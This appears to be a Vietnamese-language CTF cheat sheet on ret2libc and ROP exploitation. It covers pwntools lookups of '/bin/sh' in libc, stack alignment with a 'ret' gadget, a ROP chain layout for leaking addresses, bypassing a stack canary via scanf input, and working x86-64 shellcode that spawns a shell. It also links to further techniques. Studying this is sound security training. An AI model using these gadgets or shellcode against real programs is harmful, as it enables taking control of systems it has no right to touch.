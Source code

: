 # ret2libc-ROP

- Overview:
   * pwntools '/bin/sh':
    ```python
    next(libc.search(b'/bin/sh'))
    ```
   * Trong libc.so.6 có mọi gadgets, đôi khi không thể dùng tools để tìm được 1 số gadgets. VD: `syscall ; ret` [dicectf 2023 - bop].
   * Từ Ubuntu 18.04 trở đi, nếu việc thực thi thất bại tại những hàm như buffered_vfprintf() hay do_system() trong những file thực thi 64 bit là do ngay trước câu lệnh ret, đầu vùng nhớ stack được cấp phát 16 bytes cho việc gọi lệnh tại return address nên để thực thi được thì cần chèn thêm 1 ROPgadget "ret" vào trước câu lệnh cần thực thi để bỏ đi 1 stack 8 bytes đầu tiên và thực thi câu lệnh này nằm ở stack ngay sau đó.
    ```
    STACK:
    1. địa chỉ lệnh "ret"
    2. địa chỉ lệnh "pop rdi, ret"
    3. địa chỉ lưu chuỗi 
    4. địa chỉ hàm gets

    5. địa chỉ lệnh "ret"
    6. địa chỉ lệnh "pop rdi, ret"
    7. địa chỉ muốn được in (đọc chuỗi)
    8. địa chỉ hàm printf 
    # leak = printf thì sau printf lại phải dùng ret
    9. địa chỉ lệnh "ret"
    10. địa chỉ nào đó muốn return về.
    ```
    * Vậy nên để bypass tránh việc ghi đè canary ta chỉ cần nhập chữ cái (+, -, *, /) mà không thuộc format %lu thì phần tử đó sẽ bị skip, không thay đổi. VD: chall `Warmup` - UIT-2022-CTF . 
    * Lỗi ép kiểu là khi khai báo biến x là long (8 byte) nhưng khi xử lý điều kiện ép kiểu nó thành int (4 byte) dẫn đến sai về mặt giá trị so sánh (trên thanh ghi) => bug
    * Leak được LIBC thì có thể leak được stack thông qua biến environ trong LIBC.
    * Viết sheelcode cần set context.binary

    ```python
    ...
    elf = ELF('./vuln')
    context.binary = elf
    p = elf.process()
    ...

    shellcode = asm('''
         instruction assembly
         ...
    ''')

    OR

    context.arch = 'amd64'
    shellcode = asm(
        f'''
        xor rdi, rdi
        push rdi
        mov rdi, 0x68732f2f6e69622f
        push rdi
        mov rdi, rsp
        xor rdx, rdx
        xor rsi, rsi
        xor rax, rax
        add al, 0x3b
        syscall
        ''')
    ```


- Technique:
    * [CTF: No leak - close(fd)](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) .
    * [CTF: BlindROP](https://soolidsnake.github.io/2018/07/15/blindx86_64_rop.html) .
    * BRUTEFORCE - `TWOSHOT - KMACTF2022` * ...

